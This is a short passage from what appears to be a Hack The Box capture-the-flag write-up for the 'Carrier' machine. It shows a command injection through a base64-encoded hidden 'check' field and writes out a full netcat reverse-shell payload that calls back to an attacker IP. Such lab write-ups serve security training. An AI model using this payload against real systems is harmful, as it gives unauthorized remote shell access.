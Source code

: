 ![Diagnostics](/assets/images/htb-writeup-carrier/diag.png)

The HTML on the diagnostics page contains a base64 encoded value in the `check` field:

![HTML source](/assets/images/htb-writeup-carrier/source.png)

The hidden field `cXVhZ2dh` base64 decodes to `quagga`. We can control the grep parameter by modifying the `check` parameter in the HTTP POST request and gain code execution.

For `check`, we will use the `; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.23 4444 >/tmp/f` value encoded in base64:

